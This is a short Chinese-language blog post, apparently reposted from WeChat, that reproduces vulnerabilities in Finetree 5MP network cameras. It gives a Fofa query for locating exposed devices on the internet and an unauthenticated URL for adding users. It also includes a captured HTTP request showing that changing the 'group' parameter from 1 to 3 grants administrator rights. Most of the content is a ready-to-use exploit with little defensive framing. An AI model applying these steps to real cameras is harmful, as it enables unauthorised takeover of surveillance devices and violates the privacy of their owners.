 > 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/rcXF5rvHwhv29TlFeB2OIA)

**Fofa 搜索：https://fofa.so/**

app="Finetree-5MP-Network-Camera"  

![](https://mmbiz.qpic.cn/mmbiz_png/PrTu58FA79Yg35XTUBlvZibF5lUvEaBcmjb8mMffpUa5WaicVFGZClibJInLNE2b9YTgzYiaibbAeM09zwIBrYMT3DQ/640?wx_fmt=png)

漏洞复现

未授权访问添加 [未登录状态的]

exp：http://ip:port/quicksetup/user_pop.php?method=add

添加回出现报错，不用管，直接登录即可

![](https://mmbiz.qpic.cn/mmbiz_png/PrTu58FA79Yg35XTUBlvZibF5lUvEaBcmjY0D2vpf6PsNI6MXzWI7VWVyZ9L2Zb8owKlBlWn9bIjm0eAia9fvKNg/640?wx_fmt=png)

另一个漏洞：  

已知低权限更改高权限，添加用户，用 burp 抓包看看什么情况

添加一个测试账号，test, 得到的请求包是这样：

```
1 POST /quicksetup/user_update.php HTTP/1.1
 2 Host: x.x.x,x:8086
 3 User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:89.0) Gecko/20100101 Firefox/89.0
 4 Accept: */*
 5 Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
 6 Accept-Encoding: gzip, deflate
 7 Content-Type: application/x-www-form-urlencoded
 8 Content-Length: 52
 9 Origin: http://x.x.x.x:8086
10 Connection: close
11 Referer: http://x.x.x.x:8086/quicksetup/user_pop.php?method=add
12 Cookie: PHPSESSID=g02lv1iu0aod4ao75ioil2m0m3
14 method=add&user=test&pwd=123456&group=1&ptz_enable=0
```

以上 ip 经过处理

group 是组，1 代表 guest,2 是 operator,3 是 administrator，截断修改 group= 可以修改为管理员权限。

![](https://mmbiz.qpic.cn/mmbiz_png/PrTu58FA79bWnqtm0DovVvtkz3A8Lu0pZzgpkKqqfcphxmQDRj6pmbfd2fPu0e4HkcSA87ds4zJjksTkcxzdZA/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/PrTu58FA79arIQGU74rJvbDtBoicQlQ8rRztCvXRfJR3OFmyBS0A21eDnAcj4VROWoKia7SyWCfu388aWyfGEo8Q/640?wx_fmt=png)